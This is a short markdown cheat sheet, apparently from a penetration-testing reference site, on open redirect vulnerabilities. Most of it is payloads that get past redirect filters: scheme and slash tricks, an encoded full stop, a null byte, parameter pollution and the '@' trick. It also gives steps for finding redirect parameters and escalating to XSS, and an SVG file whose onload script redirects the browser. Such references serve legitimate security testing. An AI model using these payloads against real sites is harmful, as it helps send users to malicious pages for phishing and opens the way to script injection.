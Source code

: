 +++
title = 'Open Redirect'
+++

Often a bug that brings impact when chained.

Using "https:" to bypass "//" blacklisted keyword

```
https:google.com
```

Using "//" to bypass "http" blacklisted keyword

```
//google.com
```

Using `/\/` to bypass `//` blacklisted keyword

```
\/\/google.com/
/\/google.com/
```

Using "/\" to bypass:

```
/\google.com
```

Using "%E3%80%82" to bypass "." blacklisted character

```
//google%E3%80%82com
```

Using null byte "%00" to bypass blacklist filter

```
//google%00.com
```

Using parameter pollution

```
?next=whitelisted.com&next=google.com
```

Using "@" character, browser will redirect to anything after the "@"

```
http://www.theirsite.com@yoursite.com/
```

## Helpdesk trick

Sometimes a website will redirect only to a helpdesk subdomain, this behavior is interesting because it is possible to create a custom subdomain a place a script that will redirect to an evil website. Making it a open redirect.

## Open Redirect farming

1. If the Applictaion have a user Sign-In/Sign-Up feature, then register a user and log in as the user.
2. Go to your user profile page , for example : samplesite.me/accounts/profile
3. Copy the profile page's URL
4. Logout and Clear all the cookies and go to the homepage of the site.
5. Paste the Copied Profile URL on the address bar
6. If the site prompts for a login , check the address bar , you may find the login page with a redirect parameter like the following
- https://samplesite.me/login?next=accounts/profile
7. Exploit it or escalate to XSS

## Open Redirect uploading svg files

```
<code>
<?xml version="1.0" encoding="UTF-8" standalone="yes"?>
<svg
onload="window.REMOVETHISlocation='http://www.example.com'"
xmlns="http://www.w3.org/2000/svg">
</svg>
</code>
```

# Tools

- [Oralyzer](https://github.com/r0075h3ll/Oralyzer)

